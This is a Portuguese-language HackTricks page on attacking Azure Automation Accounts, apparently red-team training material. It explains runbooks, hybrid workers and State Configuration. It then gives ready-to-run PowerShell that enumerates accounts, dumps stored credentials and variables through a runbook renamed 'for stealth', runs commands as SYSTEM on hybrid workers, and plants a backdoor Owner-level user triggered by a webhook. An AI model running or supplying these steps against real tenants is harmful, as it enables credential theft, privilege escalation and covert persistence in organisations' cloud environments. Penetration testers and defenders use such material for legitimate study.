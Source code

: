 # Az - Conta de Automação

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

Azure Automation oferece um serviço de automação baseado na nuvem, atualizações de sistema operacional e gerenciamento de configuração que suporta gerenciamento consistente entre seus ambientes Azure e não-Azure. Inclui automação de processos, gerenciamento de configuração, gerenciamento de atualizações, capacidades compartilhadas e recursos heterogêneos.

Estes são como "**tarefas agendadas**" no Azure que permitem executar coisas (ações ou até scripts) para **gerenciar**, verificar e configurar o **ambiente Azure**.

### Conta de Execução

Quando a **Conta de Execução** é usada, ela cria uma **aplicação** Azure AD com certificado autoassinado, cria um **principal de serviço** e atribui o papel de **Contribuidor** para a conta na **assinatura atual** (muitos privilégios).\
A Microsoft recomenda usar uma **Identidade Gerenciada** para Conta de Automação.

{% hint style="warning" %}
Isso será **removido em 30 de setembro de 2023 e alterado para Identidades Gerenciadas.**
{% endhint %}

## Runbooks & Jobs

**Runbooks** permitem que você **execute código PowerShell arbitrário**. Isso pode ser **abusado por um atacante** para roubar as permissões do **principal anexado** (se houver).\
No **código** dos **Runbooks**, você também pode encontrar **informações sensíveis** (como credenciais).

Se você puder **ler** os **jobs**, faça isso, pois eles **contêm** o **resultado** da execução (informações sensíveis potenciais).

Vá para `Automation Accounts` --> `<Select Automation Account>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`

### Trabalhador Híbrido

Um Runbook pode ser executado em um **container dentro do Azure** ou em um **Trabalhador Híbrido** (máquina não-Azure).\
O **Agente de Log Analytics** é implantado na VM para registrá-la como um trabalhador híbrido.\
Os jobs do trabalhador híbrido são executados como **SYSTEM** no Windows e conta **nxautomation** no Linux.\
Cada Trabalhador Híbrido é registrado em um **Grupo de Trabalhadores Híbridos**.

Portanto, se você puder escolher executar um **Runbook** em um **Trabalhador Híbrido Windows**, você executará **comandos arbitrários** dentro de uma máquina externa como **System** (ótima técnica de pivot).

## Comprometimento da Configuração de Estado (SC)

Azure Automation **Configuração de Estado** é um serviço de gerenciamento de configuração Azure que permite escrever, gerenciar e compilar [configurações](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) de Configuração de Estado Desejado (DSC) do PowerShell para nós em qualquer nuvem ou datacenter local. O serviço também importa [Recursos DSC](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources), e atribui configurações aos nós alvo, tudo na nuvem. Você pode acessar Azure Automation Configuração de Estado no portal Azure selecionando **Configuração de estado (DSC)** em **Gerenciamento de Configuração**.

**Informações sensíveis** podem ser encontradas nessas configurações.

### RCE

É possível abusar do SC para executar scripts arbitrários nas máquinas gerenciadas.

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## Enumeração

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### Criar um Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Exfiltrar Creds & Variáveis definidas em uma Automation Account usando um Run Book

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
Você poderia fazer a mesma coisa modificando um Run Book existente e a partir do console web.
{% endhint %}

## Persistência

### Automação que cria usuário altamente privilegiado

* Crie uma nova Conta de Automação
* "Criar conta Azure Run As": Sim
* Importe um novo runbook que cria um usuário AzureAD com permissões de Proprietário para a assinatura
* Exemplo de runbook para este Blog localizado aqui – [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
* Publique o runbook
* Adicione um webhook ao runbook
* Adicione o módulo AzureAD à Conta de Automação
* Atualize os Módulos de Automação Azure
* Atribua direitos de "Administrador de Usuário" e "Proprietário de Assinatura" à conta de automação
* Eventualmente perca seu acesso...
* Acione o webhook com uma solicitação post para criar o novo usuário

{% code overflow="wrap" %}
```powershell
$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
{% endcode %}

## Referências

* [https://learn.microsoft.com/pt-br/azure/automation/overview](https://learn.microsoft.com/pt-br/azure/automation/overview)
* [https://learn.microsoft.com/pt-br/azure/automation/automation-dsc-overview](https://learn.microsoft.com/pt-br/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
